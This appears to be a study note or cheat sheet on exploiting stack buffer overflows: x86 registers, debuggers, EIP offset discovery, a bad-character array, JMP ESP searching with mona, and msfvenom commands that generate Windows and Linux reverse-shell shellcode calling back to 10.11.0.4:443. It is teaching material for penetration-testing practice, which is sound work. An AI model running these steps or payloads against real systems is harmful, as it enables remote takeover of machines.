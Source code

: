 # Buffer Overflow

### CPU Register

32-bit register:

* EAX (accumulator): Arithmetical and logical instructions
* EBX (base): Base pointer for memory addresses
* ECX (counter): Loop, shift, and rotation counter
* EDX (data): I/O port addressing, multiplication, and division
* ESI (source index): Pointer addressing of data and source in string copy operations
* EDI (destination index): Pointer addressing of data and destination in string copy operations
* EBP - The Base Pointer
* ESP - The Stack Pointer
* EIP - The Instruction Pointer

16-bit and 8-bit sub registers

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

### Debug Tools

* Immunity Debugger (for Windows)
* EDB (for Linux)

### Exploit buffer overflow

#### Replicating the Crash and Control EIP

First, we need to determine the length that causes the crash by fuzzing the program. Then, instead of using A's to fill the buffer, we can use a non-repeating string:

```sh
msf-pattern_create -l 800
```

To finding the offset, we can use the following command (42306142 is value of EIP when the program crashes):

```sh
msf-pattern_offset -l 800 -q 42306142
```

Finally, we have a payload with structure:

```sh
filler = b"A" * 780 # To fill the buffer
eip = b"B" * 4 # To overwrite EIP
offset b= "C" * 4 # To overwrite the offset
nops = "\x90" * 100 
ourshell = b"D" * 500 # To overwrite the shellcode
```

### Checking for Bad Characters

Check for some characters that are considered "bad" and should not be used in our buffer:

```sh
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff" )
```

HTTP, HTTPS bad characters: 0x00, 0x0A, 0x0D, 0x25, 0x26, 0x2B, and 0x3D.

### Redirecting the Execution Flow

We need find a JMP ESP instruction in Windows in the program memory. Find libraries in Windows is a solution. But, address criteria:

* Must be static
* Must not contain any of the bad characters

#### Finding a Return Address

**On Immunity Debugger**

```sh
!mona modules
```

**On EDB**

Use OpcodeSearcher plugin

### Generating Shellcode

{% code overflow="wrap" %}
```sh
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 EXITFUNC=thread -f c –e x86/shikata_ga_nai -b "\x00\x0a\x0d\x25\x26\x2b\x3d"
```
{% endcode %}

{% code overflow="wrap" %}
```sh
msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.11.0.4 LPORT=443 -b "\x00\x20" -f py -v shellcode
```
{% endcode %}

\
